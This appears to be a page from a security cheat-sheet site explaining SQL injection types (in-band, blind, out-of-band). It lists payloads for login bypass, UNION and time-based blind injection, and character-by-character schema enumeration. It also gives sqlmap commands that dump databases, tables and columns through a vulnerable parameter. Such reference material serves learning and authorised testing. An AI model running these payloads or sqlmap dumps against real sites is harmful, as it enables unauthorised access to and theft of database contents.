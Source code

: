 # 💉 SQLi

SQL injections (SQLi) is a type of vulnerability that allows the execution of malicious queries.

Types of SQLi:

- In-Band SQLi
- Blind SQLi
- Out-of-band SQLi

## In-Band SQL Injection

In-band SQLi are based on the output of the query that is showed directly to the user.

This attack allows to extract easily a lot of data from the database.

- Union based: the attacker uses the UNION operator to read data from additional tables.
- Error based: the server returns the database errors allowing an easier interaction for the attacker.

Common payloads

```sql
OR 1 = 1; --
UNION 1,2,3; --
```

## Blind SQLi

In blind SQLi no direct feedbacks are returned from the server.

There are different ways to make a blind SQLi:

- Authentication bypass: the output is not needed because the goal is to bypass a login form.
- Boolean based: the server replies only with a boolean.
- Time based: based on the sleep function and the time needed by the query to complete.

Common payloads

```sql
UNION SELECT SLEEP(5);--
WHERE database() LIKE 'a%'
FROM information_schema.tables WHERE table_schema = 'DATABASE_NAME' and table_name like 'a%';
FROM information_schema.columns WHERE table_schema='DATABASE_NAME' and table_name='DATABASE_TABLE' and column_name like 'a%';
```

Enumeratation example

```sql
WHERE database() LIKE 'a%'
WHERE database() LIKE 'b%'
WHERE database() LIKE 'c%'
WHERE database() LIKE 'd%'

WHERE database() LIKE 'da%'
WHERE database() LIKE 'db%'

WHERE database() LIKE 'dba%'
WHERE database() LIKE 'dbb%'
...
```

## Out-of-band SQLi

Out-Of-Band attacks are based on two different channels: one for the injection and the other to check the output.

## Warnings

:::caution
This is a list of few important warnings about SQL queries and SQLi.
:::

### SQL is not case sensitive

SQL clauses and schema values are not case sensitive.

```sql
-- all equals
SELECT * FROM USERS WHERE USERNAME='admin';
select * from users where username='admin';
Select * From Users Where Username='admin';
SeLeCt * FrOm UsErs WhErE UsErNaMe='admin';
```

### Comments

A single space after the double slash could be needed.
For example, in MySQL is mandatory.

```sql
; -- this is a comment
; --this could not be a comment
```

### Quotes

Single quotes are not always interchangeable with double quotes.
For example, PostgreSQL allows only single quotes for values and double quotes for schema names.

```sql
select "column" from "table" where "column"='value';
```

## sqlmap

<Image src={require("./assets/sqlmap.png").default} />

Use `-u` to define the target url and `--batch` to use the default behavior without asking for input.

In the next commands, `id` is a query parameter that is vulnerable to SQL injection.

Enumerate databases.

```bash
sqlmap -u "http://website.com/?id=1" --batch --dbs
```

Enumerate tables of a specific database.

```bash
sqlmap -u "http://website.com/?id=1" --batch --tables -D db_name
```

Enumerate tables content of a specific database.

```bash
sqlmap -u "http://website.com/?id=1" --batch --dump -D db_name
```

Enumerate content by specifying table, column, and database.

```bash
sqlmap -u "http://website.com/?id=1" --batch --dump -D db_name -T table_name -C col_name
```

### sqlmap over websockets

sqlmap may not support all types of requests, including those made over websockets. Also, working with complex targets can sometimes be cumbersome using sqlmap alone.

To simplify the process, it is possible to set up a fake server as an intermediary. In this way, sqlmap would make a request to the fake server using a common format, and the fake server would then make the more complex request to the actual target.

<Image src={require("./assets/sqlmap_over_websockets.png").default} />

<Gist id="4adec402e51df2bf3e35066172abaebf" />
